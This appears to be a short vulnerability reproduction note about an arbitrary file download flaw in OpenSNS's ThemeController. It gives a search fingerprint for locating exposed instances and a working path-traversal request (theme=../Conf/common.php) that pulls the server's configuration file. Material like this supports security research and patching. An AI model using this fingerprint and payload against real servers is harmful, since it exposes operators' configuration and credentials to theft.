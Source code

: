 # OpenSNS ThemeController.class.php A vulnerability to download any file in the background

## Vulnerability Description

File downloads exist in the OpenSNS ThemeController.class.php file, where insufficient filtering results in downloading any file on the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

The vulnerable file is `Application/Admin/Model/ThemeController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

The theme parameter is a user-controllable parameter. According to the function process, it can be found that the existing file will be packaged as a zip file for download.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

Construct request

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)